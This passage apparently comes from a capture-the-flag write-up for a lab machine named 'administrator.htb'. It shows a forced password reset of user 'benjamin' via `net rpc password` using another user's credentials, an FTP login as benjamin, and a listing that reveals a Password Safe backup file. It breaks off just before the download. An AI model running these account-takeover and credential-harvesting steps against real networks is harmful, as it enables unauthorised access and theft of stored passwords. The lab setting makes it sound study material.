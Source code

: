 ![michel-benjamin](/images/administrator/michel-benjamin.png)

```sh
$ net rpc password "benjamin" "password" -U "administrator.htb"/"michael"%"password" -S "administrator.htb"
```      


#### FTP Connection

We connected to the FTP server using the credentials for user `benjamin` on the domain `administrator.htb`.

```bash
ftp benjamin@administrator.htb
````

We listed the files available in the FTP directory:

```bash
ftp> ls
229 Entering Extended Passive Mode (|||50856|)
125 Data connection already open; Transfer starting.
10-05-24  09:13AM                  952 Backup.psafe3
226 Transfer complete.
```

* There was one file named `Backup.psafe3` with a size of 952 bytes.
* We proceeded to download the file using:
